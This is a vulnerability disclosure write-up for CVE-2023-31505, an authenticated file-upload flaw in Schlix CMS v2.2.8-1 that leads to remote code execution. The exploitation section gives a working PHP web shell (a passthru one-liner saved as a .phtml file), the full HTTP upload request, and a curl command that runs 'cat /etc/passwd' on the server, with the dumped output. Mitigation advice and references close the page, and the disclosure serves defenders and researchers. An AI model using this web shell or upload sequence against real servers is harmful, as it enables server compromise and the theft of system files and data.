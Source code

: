 ```yaml
---
title: Schlix CMS v2.2.8-1 - Remote Code Execution (CVE-2023-31505)
tags: [CVE, 0day, RCE, schlix, CMS]
style: border
color: warning
description: ""
---
```


## Introduction

- **CVE-ID:** [CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- **Vulnerability Type:** Arbitrary File Upload Remote following Code Execution (Authenticated)
- **Affected Product Code Base:** Schlix CMS v2.2.8-1
- **Affected Component:** Affected source code 'core.mediamanager' file
- **Attack Type:** Remote 
- **Impact:** Arbitrary file uploads and remote code execution to compromise the server.
- **Attack Vectors:** To exploit the vulnerability, it is required to be authenticated with a user with access to the File Media Manager.

## Description

An authorized user can upload a file with *.phtml* extension to a path of his choice and control the content at will. This causes remote code execution (RCE) on the server.

## Exploitation

1. Login to admin panel with true credentials and go to "Tools -> Media Manager" menu from left side.

![](../assets/img/cve-2023-31505/1.png)

2. Click the "Upload File" and upload a file in "images" folder and catch the request with Burp.

![](../assets/img/cve-2023-31505/2.png)

3. But we can see that it does not accept this type of files.

![](../assets/img/cve-2023-31505/3.png)

4. But on the contrary, the application does accept "*.phtml*" files, so we uploaded a proof of concept:

![](../assets/img/cve-2023-31505/4.png)

5. In the following image, it is evident that the file is hosted and it is possible to execute PHP commands:

![](../assets/img/cve-2023-31505/6.png)

6. Create a new file called "*test.phtml*" and add the code "*<? passthru($_REQUEST['c']); ?>*" and send the request to the server.

#### HTTP Request
```
POST /SCHLIX_CMS/admin/app/core.mediamanager?&ajax=1&action=upload HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Schlix-Ajax: 1
Content-Type: multipart/form-data; boundary=---------------------------3094465041174962963743050336
Content-Length: 953
Origin: https://<HOST>
Connection: close
Referer: https://<HOST>/SCHLIX_CMS/admin/app/core.mediamanager
Cookie: users_currentCategory=2; core-mediamanager_currentCategory=%2Fmedia%2Fimages; scx56bdae0553f4c0fbf7ca9c95614b5989=ad3705ecc421a565a3f11ae837e38fc8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="_csrftoken"

b45ef3afd5319dbdd559121de72ca19e6effa322
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="uploadstartpath"

/media/images
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata[]"; filename="test.phtml"
Content-Type: application/x-php

// Proof of concept
<? passthru($_REQUEST['c']); ?>
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="MAX_FILE_SIZE"

8388608
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata__total_file_size"

0
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="filedata__max_file_count"

20
-----------------------------3094465041174962963743050336--
```

![](../assets/img/cve-2023-31505/4.png)

4. Go to "*https://HOST/SCHLIX_CMS/web/main/media/images/test.phtml?c=/etc/passwd*" or execute with **curl**.

#### Executing commands with curl

```bash
> curl -s -X POST https://<HOST>/SCHLIX_CMS/web/main/media/images/test.phtml -d "c=cat /etc/passwd"
// Proof of concept
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
*******:x:993:993::/home/*******:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
```
#### Result of the evidence
![](../assets/img/cve-2023-31505/7.png)

## Mitigation
- Restrict invalid file types, allowing only image files (e.g. Jpg, png, etc.).
- Perform file integrity check, validating that it is an expected file type and not a malicious one.
- Store these files outside the application (e.g. S3 AWS Buckets), preventing the attacker from getting relevant information or compromising the host server.

## Acknowledgments
We would like to thank [**MITRE CVE**](https://cve.mitre.org/) for their attention and speed in the procedures with the CVE identifier.

## References
- [Mitre - CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)